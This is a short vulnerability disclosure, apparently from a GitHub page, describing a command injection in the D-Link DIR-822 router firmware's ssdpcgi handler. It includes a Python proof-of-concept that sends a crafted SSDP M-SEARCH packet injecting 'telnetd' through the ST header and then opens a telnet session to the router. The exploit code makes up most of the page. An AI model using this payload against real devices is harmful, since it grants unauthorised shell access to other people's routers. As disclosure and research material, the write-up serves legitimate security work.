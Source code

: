 ### 1、 Vulnerability Introduction

DIR-822文件中，存在命令执行漏洞

### 2、 Firmware version

```
DIR822_FW100WWb08.bin
```

### 3、 vulnerability analysis

```
In the cgibin file, ssdpcgi_ In the main function, the data passed from the front-end is obtained through getenv and directly passed as a parameter to lxmldbc without filtering_ Command execution vulnerability caused by system function
```

![img](/C:/Users/486/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

### 4、 poc

```python
import sys
import os
import socket
from time import sleep

def config_payload(ip, port):
  header = "M-SEARCH * HTTP/1.1\n"
  header += "HOST:"+str(ip)+":"+str(port)+"\n"
  header += "ST:urn:device:1;telnetd\n"
  header += "MX:2\n"
  header += 'MAN:"ssdp:discover"'+"\n\n"
  return header
  
def send_conexion(ip, port, payload):
  sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
  sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
  sock.sendto(payload,(ip, port))
  sock.close()
  
if __name__== "__main__":
  ip = raw_input("Router IP: ")
  port = 1900

headers = config_payload(ip, port)
send_conexion(ip, port, headers)
sleep(5)
os.system('telnet ' + str(ip))
```

![img](/C:/Users/486/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)
